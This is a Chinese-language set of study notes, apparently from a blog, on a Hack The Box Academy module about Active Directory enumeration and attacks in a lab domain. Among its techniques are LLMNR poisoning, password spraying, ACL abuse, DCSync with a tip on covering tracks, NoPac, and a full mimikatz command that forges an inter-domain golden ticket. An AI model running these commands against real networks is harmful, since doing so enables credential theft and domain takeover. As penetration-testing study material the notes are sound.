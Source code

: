 # ACTIVE DIRECTORY ENUMERATION & ATTACKS

这个模块其实与thm的AD教程相比，还是thm更适合刚开始接触AD以及学习从枚举到持久化的全阶段（红队）。而htb学院这个模块更注重于枚举和各种攻击手段，有点纯渗透的风格，弱化了每个阶段之间的概念，所以这两家平台的AD教程形成一种互补。

当有了thm的AD全部知识，之后再来到这个模块，就会发现两家的AD教程各有各的优点，thm有的知识，htb学院的这个模块不一定也会有，反之亦然。所以我仍然强调的是形成互补之势，而不是哪家的教程更好，盲目比较这两家谁更好，只能说明这个人非常愚蠢。

在这个模块，在我thm原有的知识基础上，进一步加深了我对AD以及Kerberos、ACL、Trust之类的了解，还有PowerView、Rubeus之类的热门工具的使用

我们会发现这个模块部分内容根据linux、windows两大平台进行分别教程(TTP)，意在：如果我们立足于linux或者是我们的攻击机kali上，我们能做什么，用什么做；如果我们立足于windows，我们能做什么，用什么做

## LLMNR & NBT-NS

当dns发生故障无法正常服务或用户使用了错误的域名访问导致dns查询失败时，会采用LLMNR向链路本地的其他主机进行查询，如果LLMNR失败，则会采用 NBT-NS，这将可能导致获取密码 hash甚至是ntlm中继（非强制smb签名的情况下）

常用的两种工具linux下的responder和windows的Inveigh，Inveigh有powershell版本和C Sharp版本

## Kerbrute用户枚举细节

Kerbrute使用Kerberos预身份验证来枚举用户，所以枚举的时候如果有已禁用预身份验证的账户，Kerbrute会直接请求并输出。因此不会生成4625登录失败事件，但会生成4768Kerberos TGT请求事件，这也能够在严格的4625事件监控下逃脱

## Internal Password Spraying

在域内的windows主机上可以使用DomainPasswordSpray.ps1和Rubeus，甚至是Kerbrute来进行spray

此外我们还应该关注密码重用的问题，这将能使用明文密码或者hash进行spray

## 已登录账户

crackmapexec的--loggedon-users参数可以让我查看到有哪些用户已在这台机器登录，我们将可以尝试通过内存提取其凭据

## wmiexec & smb/psexec

wmiexec可能会导致频繁出现4688创建新进程事件日志，而smbexec、psexec通过IPC\$和ADMIN\$，传递文件并通过svcctl创建服务，而这一行为也会被Win Defender检测到

## net1 - net

## setspn.exe

通过setvpn可以帮助枚举所有具有SPN的账户

	setspn -Q */*

## 受支持的PowerView - Empire

	https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/situational_awareness/network/powerview.ps1

## ACL

![在这里插入图片描述](https://img-blog.csdnimg.cn/050d998a238042f6bf50889a6f9a10ae.png)

在bloodhound文档当中，也有非常多可滥用的ace type文档，并且描述了如何通过powerview去利用

	https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html

## 查询指定ACL

	Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

## GenericWrite

powerview：

```powershell
Set-DomainObject -Identity <obj> -Set @{serviceprincipalname="hacker/M"} -Credential $cred
```

此外还可以使用[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)在linux机器上执行此操作

## PowerView查找能够dcsync acl

```powershell
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')}
```

	如果我们对用户拥有某些权限（例如 WriteDacl），我们还可以将此权限添加到我们控制下的用户，执行 DCSync 攻击，然后删除权限以尝试掩盖我们的踪迹。

## 设置了可逆加密密码的账户

![在这里插入图片描述](https://img-blog.csdnimg.cn/92c7e884405c4d3d99b3c3f42ad512d2.png)

当启用的该设置时，会使用RC4进行加密密码，而密钥存储在注册表中

使用PowerView枚举UAC为ENCRYPTED_TEXT_PWD_ALLOWED

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
```

## Kerberos Double Hop

![在这里插入图片描述](https://img-blog.csdnimg.cn/01dbeeb2bb6e4d04b878f450760c5066.png)

这个问题我们可能会遇得到，通过winrm进行远程连接时，只会携带winrm需要的tgs（http，cifs）进行连接，此时想要在目标上访问AD资源时，这将会显示拒绝访问。因为在这种情况下进行tgs请求时，由于它不会携带tgt,因为机器上可能没有，我们连接winrm的时候没有把tgt携带过去，所以后续我们无法通过kdc的tgs请求的tgt验证，所以我们无法访问其他AD服务。

1. PSCredential，通过powerview的-Credential参数传递凭据以访问服务
2. 注册新的会话配置

```powershell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
```

## NoPac

创建一个与dc主机名一样的计算机账户，不带$后缀。使用此账户可以欺骗kdc，令其匹配dc的计算机账户，以获得dc访问权限。前提是我们的账户具有创建计算机账户的权限

## PASSWD_NOTREQD

设置了此UAC，则该用户将不被密码策略限制，这有可能为弱密码甚至是空密码

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD
```

## GPO枚举

```powershell
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
Get-GPO -Guid <GPO Guid>
```

我们可以使用[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)来帮助利用GPO

## Trust

![在这里插入图片描述](https://img-blog.csdnimg.cn/3071574c01cb4603aa751d644e5ab05d.png)

```powershell
Get-ADTrust
Get-DomainTrust
Get-DomainTrustMapping
```

## 从子域到父域

### 金票细节

我们知道当域账户登录的机器时，通过sid生成access token，并使用该token确定所具有的权限。而具有SIDHistory也会参与token的生成。

当访问旧域时，sidHistory就会被添加到TGT的PAC的ExtraSids字段中，所以我们最终会具有该sid所具有的权限，这也是金票制作的核心，通过mimikatz直接伪造tgt，同时把PAC里的ExtraSids字段改成EA组的sid，这样我们就得到了一张**域间**（子域-父域）金票

所以很容易想到制作这张票需要什么：

1. 子域的sid
2. EA组的sid
3. 子域的域名
4. 任意用户名（可不存在，因为后续请求tgs时都能通过，并且通过sid确认权限）
5. 子域的krbtgt的hash

mimikatz

	kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

### 在linux我们可以使用Ticketer.py制作金票

再通过ticketConverter.py将ccache转kirbi

## 林间双向信任

	Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL

只要指定一下域
